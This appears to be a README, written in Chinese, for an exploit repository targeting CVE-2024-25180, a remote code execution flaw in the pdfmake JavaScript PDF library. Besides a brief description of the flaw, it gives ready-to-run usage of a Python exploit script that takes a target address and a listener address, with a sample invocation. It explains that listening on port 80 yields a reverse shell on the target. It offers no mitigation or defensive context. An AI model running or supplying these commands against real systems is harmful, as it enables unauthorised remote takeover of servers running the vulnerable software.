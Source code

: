 # CVE-2024-25180

## 概述
pdfmake是一个纯 JavaScript 客户端/服务器端 PDF 打印
此软件包的受影响版本容易受到任意代码注入攻击，攻击者可以通过向路径发送精心设计的 POST 请求来执行任意代码/pdf。攻击者可以通过发送精心设计的请求在系统上执行任意代码。

CVE-2024-25180 Remote Code Execution in pdfmake

## 利用
```
python3 CVE-2024-25180.py <TARGET_IP> <TARGET_PORT> <LOCAL_IP> <LOCAL_PORT>

python3 CVE-2024-25180.py 192.168.140.42 1234 192.168.45.208 80
```
监听80端口，即可获取反弹shell

![image](https://github.com/user-attachments/assets/42e08e9e-ebe7-41c7-84f3-424558754b75)

